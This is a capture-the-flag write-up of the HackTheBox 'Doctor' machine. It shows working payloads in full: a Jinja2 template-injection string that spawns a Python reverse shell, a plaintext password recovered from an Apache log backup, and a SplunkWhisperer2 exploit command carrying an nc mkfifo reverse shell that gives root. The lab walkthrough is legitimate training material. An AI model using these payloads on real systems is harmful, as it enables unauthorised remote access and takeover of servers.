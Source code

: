```yaml
---
title: "HackTheBox — Doctor Writeup"
date: 2020-10-15 10:50:00 +0530
categories: [Hackthbox,Machine,Linux]
tags: [Server Side Template Injection, Splunk,CVE-2020-9484]
image: /images/doctor/icon.png
---
```

> Doctor from HackTheBox is an easy linux machine. We'll start with basic enumeration with nmap as usual.

## Reconnaissance

Let's begin with `nmap` to discover open ports and services:

```shell
nmap -sC -sV 10.10.10.209 -on=nmap.txt
# Nmap 7.80 scan initiated Sat Oct 17 13:33:03 2020 as: nmap -sC -sV -oN=nmap.txt 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.30s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 17 13:34:16 2020 -- 1 IP address (1 host up) scanned in 73.30 seconds

```
Based on the scan results we can port see `22,80 and 8089` are open, so lets check 80 first.

## HTTP - Port 80

Looking at https://10.10.10.209 we found the `info@doctors.htb`.

`home page`
![website](/images/doctor/1website.png)

![info](/images/doctor/2info.png)

let's add this domain to `/etc/hosts` , `10.10.10.209 doctors.htb`.
and lets check what is it `http://doctors.htb`.

![login](/images/doctor/3login.png)

we get a login page.lets create a new user and get inside .

![register](/images/doctor/4registerandogin.png)

![index](/images/doctor/5doctorindex.png)

check the source code of page `ctrl+u` , we found the commented arhive herf.
lets visit this page.

![index](/images/doctor/5archive_blank.png)

this is a blank page with only title if we check the source code of page.
![index](/images/doctor/6archive.png)


from wappayzer we find its using flask with python3
![index](/images/doctor/wappalyzer.png)


lets create a new message.

![index](/images/doctor/8testpost.png)

upon refreshing the archive page and viewing the code .

![index](/images/doctor/testarchive.png)



### SSTI (server-side template injection)

lets first test for server-side template injection.
  [**Here**](https://portswigger.net/web-security/server-side-template-injection) is the detailed explanation of  `SSIT`.


![index](/images/doctor/9testpost.png)

we can verify `SSIT` by refreshing archive source page.
![brup](/images/doctor/10ssti_archive.png)


### Shell

we verify that this site is vunerable to `SSIT`.
now lets use this vun for getting shell.
for that we know there is python runing on the machine
lets use python script for reverse shell.

```shell
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP_ADDRESS\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
repace IP_address and create a new message. and listen with `nc -nlvp 4444`.

![brup](/images/doctor/shellpost.png)


upon refreshing archve page,  we get the shell.

```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/doctor]
└──╼ $nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:36254.
ls
blog
blog.sh
whoami
web
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@doctor:~$ 
```



## User

### Enumeration

lets enum for user
lets check the apache folder first.

```shell
web@doctor:/var/log/apache2$ ls
access.log        access.log.5.gz  error.log.10.gz  error.log.5.gz
access.log.1      access.log.6.gz  error.log.11.gz  error.log.6.gz
access.log.10.gz  access.log.7.gz  error.log.12.gz  error.log.7.gz
access.log.11.gz  access.log.8.gz  error.log.13.gz  error.log.8.gz
access.log.12.gz  access.log.9.gz  error.log.14.gz  error.log.9.gz
access.log.2.gz   backup           error.log.2.gz   other_vhosts_access.log
access.log.3.gz   error.log        error.log.3.gz
access.log.4.gz   error.log.1      error.log.4.gz
```
we got a backup file , lets check for any credintialsit have.

```shell
web@doctor:/var/log/apache2$ cat backup | grep password
cat backup | grep password
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

got a password `Guitar123`.

lets check this password if it gives us any user access.
we got the user shaun on home directory so lets check for shaun

```shell
web@doctor:/home$ su shaun
Password: Guitar123
shaun@doctor:/home$ ls
shaun  web
shaun@doctor:/home$ cd shaun
shaun@doctor:~$ ls
user.txt 
```

we got a user. 


## Elevating privilige: shaun -> root

### Enumeration

going back to nmap scan

```shell
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
```

we see the machine is running Splunk on port `8089`.
lets check `/opt` folder

```shell
shaun@doctor:~$ cd /opt
shaun@doctor:/opt$ ls
clean  splunkforwarder
```

and we have an expoit for splunkforwarder.
[[**Here**]](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2) is the link of the exploit. download and fire it and 
listen with netcat.
at this exploit requires python2 and other modules we are using remote exploit.


### Exploit

`command for exploit`

```shell
python3 exploit.py --host doctors.htb --port 8089 --lhost 10.10.14.38 
--username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;
cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4445 >/tmp/f' 
```



```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/doctor]
└──╼ $python3 exploit.py --host doctors.htb --port 8089 --lhost 10.10.14.38 --username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4445 >/tmp/f'
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp0us4b5f0.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.38:8181/
10.10.10.209 - - [21/Oct/2020 13:12:47] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```

```shell
┌─[✗]─[oxy@oxy]─[~/Practice/hackthebox/machine/doctor]
└──╼ $nc -nlvp 4445
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:60706.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
```


And we pwned the Box !

Thanks for reading.
